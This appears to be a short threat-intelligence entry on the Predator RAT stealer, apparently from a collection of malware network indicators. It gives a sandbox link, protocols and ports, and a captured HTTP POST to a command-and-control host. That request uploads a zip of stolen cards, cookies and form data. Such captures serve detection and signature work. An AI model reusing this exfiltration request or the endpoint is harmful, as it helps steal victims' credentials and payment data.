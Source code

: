 # Predator RAT

# Links:
https://app.any.run/tasks/48952db2-c7f6-4fe2-9d4e-75108916232a/

# Protocols:
HTTP
DNS

# Ports:
80
53

# Sample:

```
POST /api/gate.get?p1=1&p2=0&p3=0&p4=2&p5=0&p6=0&p7=0 HTTP/1.1
Content-Type: multipart/form-data; boundary=---------------------------7
User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:31.0) Gecko/20100101 Firefox/31.0
Host: hostss.mcdir.ru
Content-Length: 1170948
Connection: Keep-Alive
Cache-Control: no-cache

-----------------------------7
Content-Disposition: form-data; name="file"; filename="2U2T7U6U6V.zip"
Content-Type: application/octet-stream

PK........"b.N................General/UT
..=.+]=.+]=.+]PK........"Z.Nf..m
...........General/cards.txtUT
..-.+]-.+]-.+]SVp.(..M.....PK........"Z.N...G..../.......General/cookies.txtUT
..-.+]-.+]-.+]SV...../....RVp.(..M.3...l.PK........"Z.N..[.O...........General/forms.txtUT
..-.+]-.+]-.+]SVp.(..M....E.@....\....T+.......D.:.pYbN)P.=1.(35..n.D....S.2......
..U.99.@6.PK.........hsN,.
```
